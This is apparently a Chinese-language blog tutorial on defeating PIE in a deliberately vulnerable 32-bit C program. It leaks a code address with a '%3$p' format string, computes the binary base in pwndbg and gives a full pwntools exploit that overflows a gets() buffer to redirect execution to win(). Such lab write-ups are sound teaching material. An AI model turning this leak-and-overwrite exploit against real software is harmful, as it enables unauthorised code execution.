 ```yaml
---
title: '通过格式化字符串绕过 PIE'
date: '2023-08-22'
lastmod: '2023-08-22'
tags: ['PWN', 'Stack']
draft: false
summary: '无已知地址绕过 PIE'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 源码

<Download name="pie-fmtstr.zip" href="/static/assets/pie-fmtstr.zip" type="Binary" />

```c:source.c showLineNumbers
#include <stdio.h>

void vuln() {
  char buffer[20];

  printf("What's your name?\n");
  gets(buffer);
  
  printf("Nice to meet you ");
  printf(buffer);
  printf("\n");

  puts("What's your message?");

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

与上篇文章不同的是，这次我们没有得到任何一个函数的绝对地址，我们必须使用其它手段来泄漏它。

## 0x02 分析

```
$ ./vuln-32
What's your name?
%p
Nice to meet you 0xf7f3e000
What's your message?
hello
```

测试发现可以使用格式化字符串来泄漏地址。

## 0x03 利用

### 1x01 基础信息

和上次一样，我们首先设置好一些基本内容。

```python showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

### 1x02 泄漏 PIE

现在我们只需要泄漏地址就好了，我们可以在 `pwndbg` 里面尝试一些不同的偏移量来测试。

```
$ pwndbg vuln-32
What's your name?
%p %p %p %p %p
Nice to meet you 0xf7fc6000 (nil) 0x565561d5 (nil) (nil)
What's your message?
hello
```

第 3 个看起来像一个函数的地址，让我们检查一下第 3 个泄漏值和基地址之间的差异。在格式化字符串泄漏的值之后的某个位置设置一个断点（在哪里并不重要）。

你也可以直接把断点下在泄漏的这个值上面，设这个断点只是为了能够让我们调试程序。

```
$ pwndbg vuln-32
$ r
What's your name?
%3$p
Nice to meet you 0x565561d5
[...]
$ b *0x565561d5
Breakpoint 1 at 0x565561d5
$ r
[...]
$ vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
     Start        End Perm     Size Offset File
0x56555000 0x56556000 r--p     1000      0 vuln-32
0x56556000 0x56557000 r-xp     1000   1000 vuln-32
[...]
```

我们可以看到基地址是 `0x56555000` ，泄漏的值是 `0x565561d5` 。因此，从泄漏的地址中减去 `0x11d5` 就会得到二进制文件的基地址。

<Tip>
  可以通过 `vmmap` 指令来查看程序运行的基地址。

  对于没有开启 PIE 的程序，直接用 `checksec` 也可以看到基地址。
</Tip>

```python showLineNumbers
p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')
```

现在，我们只需要发送 payload 就可以了。

```python showLineNumbers
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

p.interactive()
```

### 1x03 最终 Exploit

```python:exp.py showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

同样的思路，只是 64-bit。试试看 :)

<Download name="pie-fmtstr-64.zip" href="/static/assets/pie-fmtstr-64.zip" type="Binary" />

